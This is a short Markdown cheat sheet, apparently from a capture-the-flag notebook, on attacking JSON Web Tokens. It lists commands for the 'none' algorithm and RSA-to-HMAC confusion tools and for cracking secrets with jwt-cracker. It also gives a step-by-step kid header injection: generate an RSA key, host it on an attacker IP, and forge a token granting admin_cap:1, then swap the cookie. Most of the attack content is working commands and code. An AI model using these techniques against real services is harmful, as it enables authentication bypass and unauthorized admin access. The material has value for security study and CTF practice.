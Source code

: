 ```yaml
---
layout: post
title: "jwt"
keywords: "jwt, json, token, kid, web token"
---
```


#### Dissecting a JWToken
```
header.payload.secret

{"typ":"JWT","alg":"RS256/HS256/NONE"}

NONE  -> No signature

RS256 (RSA Signature with SHA-256) is an asymmetric algorithm, and it uses a public/private key pair

HS256 (HMAC with SHA-256), on the other hand, is a symmetric algorithm, with only one (secret) key
--> HMACSHA256( base64UrlEncode(header) + "." + base64UrlEncode(payload), secret)
```

#### Tools
```
python3 /opt/TokenBreaker/RsaToHmac.py -t <token> -p <public.pem>
python3 /opt/TokenBreaker/TheNone.py -t <token>
jwt-cracker <token> [alphabet] [max-length]
```

> `"kid" (key ID)` is an optional header claim which holds a key identifier, particularly useful when you have multiple keys to sign the tokens and you need to look up the right one to verify the signature - [https://tools.ietf.org/html/rfc7515#section-4.1.4](https://tools.ietf.org/html/rfc7515#section-4.1.4)


#### First create a new private RSA Private Key

```
ssh-keygen -t rsa -b 4096 -m PEM -f jwtRS256.key
openssl rsa -in jwtRS256.key -pubout -outform PEM -out jwtRS256.key.pub
cat jwtRS256.key
cat jwtRS256.key.pub
```

#### Grab header and payload 
-> https://jwt.io/

#### Generate new token

```
private_key = ‘’'
-----BEGIN RSA PRIVATE KEY-----
88CVL/nFFPb+EcPpz9N2OTG4T8gAsYxgAU3q/Llt/NnXASm6CO4p82VXjaGz
-----END RSA PRIVATE KEY-----
‘’'
payload = {"username":"parity0x1","email":"parity0x1@htb.htb","admin_cap":1}
encoded = jwt.encode(payload, private_key, algorithm="RS256",headers={"kid":"http://10.10.14.100:8000/jwtRS256.key"})
print(encoded)
```

#### Replace cookie
```
header.payload.secret
```

#### Start local server
```
python3 -m http.server
```